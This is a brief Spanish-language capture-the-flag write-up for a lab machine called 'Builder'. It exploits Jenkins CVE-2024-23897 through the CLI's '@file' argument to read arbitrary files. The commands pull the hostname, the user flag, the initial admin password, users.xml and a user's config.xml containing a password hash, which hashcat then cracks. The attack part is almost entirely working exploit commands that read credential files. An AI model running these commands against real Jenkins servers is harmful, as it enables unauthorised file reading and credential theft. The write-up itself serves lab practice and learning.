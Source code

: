 ```yaml
---
layout: default
title: Builder
---
```

Jenkins

El .jar para usar la cli de jenkins está en :

```bash
wget http://10.10.11.10:8080/jnlpJars/jenkins-cli.jar
```

CVE-2024-23897

```bash
java -jar jenkins-cli.jar -s 'http://10.10.11.10:8080' help '@/etc/hostname' a
```

```bash
java -jar jenkins-cli.jar -s 'http://10.10.11.10:8080' help '@/var/jenkins_home/user.txt' a
```

Jenkins suele guardar la contraseña iniciar en:

```bash
/var/jenkins_home/secrets/initialAdminPassword
java -jar jenkins-cli.jar -s 'http://10.10.11.10:8080' help '@/var/jenkins_home/secrets/initialAdminPassword' a
```

Usuarios en:

```bash
/var/jenkins_home/users/users.xml
java -jar jenkins-cli.jar -s 'http://10.10.11.10:8080' reload-job '@/var/jenkins_home/users/users.xml'
```

Y credenciales en :

```bash
/var/jenkins_home/users/jennifer_12108429903186576833/config.xml
java -jar jenkins-cli.jar -s 'http://10.10.11.10:8080' reload-job '@/var/jenkins_home/users/jennifer_12108429903186576833/config.xml'
```

```bash
hashcat -m 3200 jennifer_hash --user /usr/share/wordlist/rockyou.txt
```